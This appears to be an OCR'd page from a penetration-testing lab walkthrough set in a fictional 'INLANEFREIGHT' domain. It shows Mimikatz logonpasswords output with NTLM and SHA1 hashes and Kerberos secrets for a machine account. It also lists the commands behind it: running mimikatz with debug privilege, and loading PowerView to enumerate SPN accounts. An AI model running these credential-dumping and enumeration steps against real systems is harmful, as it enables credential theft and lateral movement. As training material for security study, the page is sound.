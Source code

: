 ```powershell-session
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 45178 (00000000:0000b07a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 44190 (00000000:0000ac9e)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               :
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname